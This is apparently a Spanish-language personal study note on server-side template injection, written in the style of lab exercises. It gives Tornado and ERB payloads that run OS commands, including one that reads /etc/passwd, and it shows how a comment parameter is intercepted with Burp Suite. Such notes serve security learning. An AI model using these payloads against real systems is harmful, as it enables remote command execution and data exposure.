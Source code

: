 ```bash
{%import os%}{{os.popen('id').read()}}
```

Los espacios lo ponemos en URL Encoded:

![[Pasted image 20230111221213.png]]

### ERB RUBY

PoC:

```bash
<%= 7 * 7 %>
```

![[Pasted image 20230211070941.png]]

ejecucion remoet de comandos:

```bash
<%= system('cat /etc/passwd') %>
```

![[Pasted image 20230211071103.png]]


### Basic server-side template injection (code context)

Una pagina puede tener la funcionalidad de como mostrar tu nombre cuando comentas en un post:

![[Pasted image 20230211072621.png]]

al interceptarlo con burpsuite vemos que viaja asi:

![[Pasted image 20230211072843.png]]

>[!tip]
>El que viaje asi parece que lo maneja como atributo de un objeto: `objecto.atributo`.

al ser un objeto puede que se este implementando en el codigo asi:

```html
<section class="comment">
	<p>
		<img src="/resources/images/avatarDefault.svg" class="avatar">
		{{user.name}} | {{comment.date}}
	</p>
	<p>
		{{comment.body}}
	</p>
</section>
```

este valor es reflejado al comentar un post:

![[Pasted image 20230211074027.png]]
